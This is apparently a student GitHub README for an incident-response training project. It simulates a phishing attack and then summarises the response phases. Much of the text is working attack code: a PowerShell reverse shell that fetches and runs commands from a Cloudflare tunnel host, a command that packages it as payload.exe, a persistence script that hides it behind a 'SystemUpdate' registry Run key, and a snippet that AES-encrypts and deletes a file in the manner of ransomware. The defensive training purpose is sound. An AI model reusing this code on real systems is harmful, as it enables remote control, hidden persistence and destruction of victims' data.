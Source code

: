 # DEPI-Incident Response Track Project

## Project Overview
This project simulates a cybersecurity incident where an employee receives a malicious email from someone impersonating a friend. 
The email contains an executable file disguised as an image (a meme). When the employee runs the executable `payload.exe`, it opens a reverse shell connection in the background. Additionally, the project includes a simulated ransomware that encrypts a file named PASS.txt.

The incident response plan for this project follows these phases:
- Preparation
- Containment
- Eradication
- Recovery
- Awareness

## Technical Details
### Reverse Shell Connection:
#### Cloudflare Tunnel
First of all to allow the payload to communicate externally,we’ve set up a Cloudflare tunnel with the command:

`cloudflared tunnel --url http://localhost:80`
This command creates a tunnel that forwards traffic from your local machine (running on http://localhost:80) to the Cloudflare network. 
As a result, the payload can connect back to our simulated attacker’s server through a Cloudflare-provided domain, such as `URI.trycloudflare.com:80`. 

This tunnel is essential because it bridges our local environment to the external network, enabling the reverse shell to function beyond our local machine.
#### Main Payload:
The core payload using Hoax Shell, embedded in `payload.exe`, establishes the reverse shell connection:
```
$s='TunnelURI.trycloudflare.com:80';
$i='bf5e666f-5498a73c-34007c82';
$p='http://';
$v=IRM -UseBasicParsing -Uri $p$s/bf5e666f -Headers @{"Authorization"=$i};
while ($true){$c=(IRM -UseBasicParsing -Uri $p$s/5498a73c -Headers @{"Authorization"=$i});
if ($c -ne 'None') {$r=IEX $c -ErrorAction Stop -ErrorVariable e;
$r=Out-String -InputObject $r;
$t=IRM -Uri $p$s/34007c82 -Method POST -Headers @{"Authorization"=$i} -Body ($e+$r)} sleep 0.8}
```

- `payload.exe` with the command: `ps2exe -InputFile payload.ps1 -OutputFile payload.exe -noConsole`.

Persistence is achieved with the following script, which creates a scheduled task to run the payload on startup:
```
Set-Content -Path "$env:APPDATA\sysupd.ps1" -Value '$s=''TunnelURI.trycloudflare.com:80'';
$i=''bf5e666f-5498a73c-34007c82'';
$p=''http://'';
$v=IRM -UseBasicParsing -Uri $p$s/bf5e666f -Headers @{''Authorization''=$i};
while($true){$c=(IRM -UseBasicParsing -Uri $p$s/5498a73c -Headers @{''Authorization''=$i});
if($c -ne ''None''){$r=IEX $c -ErrorAction Stop -ErrorVariable e;
$r=Out-String -InputObject $r;
$t=IRM -Uri $p$s/34007c82 -Method POST -Headers @{''Authorization''=$i} -Body ($e+$r)} sleep 0.8}' -Force;
Set-Content -Path "$env:APPDATA\sysupd.vbs" -Value 'CreateObject("WScript.Shell").Run "powershell.exe -ExecutionPolicy Bypass -File ""C:\Users\" & CreateObject("WScript.Shell").ExpandEnvironmentStrings("%USERNAME%") & "\AppData\Roaming\sysupd.ps1""", 0, False' -Force;
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "SystemUpdate" -Value "wscript.exe "$env:APPDATA\sysupd.vbs"" -PropertyType String -Force
```

#### Simulated Ransomware:
The ransomware simulation searches for and encrypts `PASS.txt` on the desktop using AES encryption.

The original file is then deleted:
```
$k=[Text.Encoding]::UTF8.GetBytes("MySecretKey123!");
$a=[Security.Cryptography.Aes]::Create();
$a.Key=[Security.Cryptography.SHA256]::Create().ComputeHash($k);
$f=Get-Item "$env:USERPROFILE\Desktop\PASS.txt";
$c=[IO.File]::ReadAllBytes($f.FullName);
[IO.File]::WriteAllBytes("$($f.FullName).encrypted",($a.CreateEncryptor().TransformFinalBlock($c,0,$c.Length)));
Remove-Item $f.FullName
```

## Incident Response Plan
This section summarizes the incident response plan for a phishing email attack involving an image-based payload. The plan outlines steps to detect, contain, eradicate, and recover from the incident, as well as maintain ongoing awareness.

### Preparation
The team prepares by setting up monitoring tools, drafting response plans, and training employees to recognize phishing attempts like the malicious email in this scenario.

### Containment
Upon detecting the reverse shell or ransomware, the team isolates the affected device, blocks the malicious domain `TunnelURI.trycloudflare.com`, and stops further damage.

### Eradication
The team removes the persistent script `sysupd.ps1`, `sysupd.vbs` and registry key `SystemUpdate`, then eliminates the ransomware and payload.

### Recovery
Systems are restored by decrypting PASS.txt (if a key is available), patching vulnerabilities, and verifying the device is clean before reconnecting it to the network.

### Awareness
Employees are educated about the incident, focusing on identifying suspicious emails and avoiding unverified executables.

Note: This is a summary. For the complete plan, including detailed procedures and tools, refer to the uploaded file 

[Incident Response Plan.docx].


## Conclusion

This project illustrates a realistic cybersecurity incident and demonstrates the importance of a structured incident response plan. 
By simulating an attack involving a reverse shell and ransomware, we tested our ability to respond effectively and identified key areas for improvement.












